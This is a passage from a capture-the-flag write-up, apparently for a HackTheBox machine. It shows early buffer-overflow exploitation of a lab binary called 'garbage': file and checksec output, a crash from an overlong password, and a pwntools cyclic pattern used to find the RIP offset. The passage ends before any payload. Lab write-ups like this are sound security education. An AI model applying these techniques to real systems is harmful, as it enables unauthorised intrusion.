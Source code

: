 ### Exploiting the garbage binary

Running file against it it's a 64 bit binary, not stripped:

```bash
file garbage 
garbage: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=de1fde9d14eea8a6dfd050fffe52bba92a339959, not stripped
```

And checksec to see the protections:

```bash
checksec garbage
[*] '/home/localuser/htb/ellingson/garbage'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

If I send 200 chars I get a segmentation fault:

```bash
./garbage 
Enter access password: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

access denied.
Segmentation fault (core dumped)
```

### Controlling RIP

First I'll find on how many bytes I have control over `RIP`, for this I'll use the the `cyclic()` function from pwntools to generate a cyclic pattern:

```python
python3
>>> from pwn import *
>>> cyclic(200)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaab
waabxaabyaab'
```

And I send it with gdb (I'm usign the pwndbg extension):
